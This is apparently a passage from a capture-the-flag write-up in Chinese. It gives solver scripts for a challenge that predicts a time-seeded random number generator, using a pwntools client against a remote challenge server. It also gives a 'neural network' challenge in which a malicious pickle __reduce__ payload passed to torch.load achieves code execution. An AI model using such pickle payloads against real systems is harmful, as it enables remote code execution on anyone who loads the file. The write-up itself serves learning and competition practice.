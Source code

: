 ```python
import os, time, subprocess

s = int(time.time())
f = {}
for i in range(5000):
    f[s + i] = subprocess.getoutput('./t2 %d' % (s + i)).split()
open('data.txt', 'w').write(repr(f))
```

```python
from pwn import *

r = remote('202.38.93.111', 10091)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())
g = []
for i in range(2):
    r.recvuntil(b'\xef\xbc\x9a')
    r.sendline(b'2.33333')
    r.recvuntil(b'\xef\xbc\x9a')
    g.append(r.recvline().strip().decode())

for _, o in eval(open('data.txt').read()).items():
    if g[0] == o[0] and g[1] == o[1]:
        break
for i in range(2, 5):
    r.recvuntil(b'\xef\xbc\x9a')
    r.sendline(o[i])
r.interactive()
```

## 二次元神经网络

`torch.load` 会调用 pickle 反序列化，于是可以 RCE。

```python
import io, os, json, base64

import torch
import matplotlib
import matplotlib.image


pixels = torch.load("dataset/pixels_10.pt")
n_samples = 10
predictions = pixels.clamp(0, 1)

gen_imgs = []
for i in range(n_samples):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

result = json.dumps({"gen_imgs_b64": gen_imgs})

poc = '''class genpoc(object):
    def __reduce__(self):
        s = "open('/tmp/result.json','w').write('XXX')"
        return (eval, (s,))

poc = pickle.dumps(genpoc())
open('archive/data.pkl', 'wb').write(poc)'''

```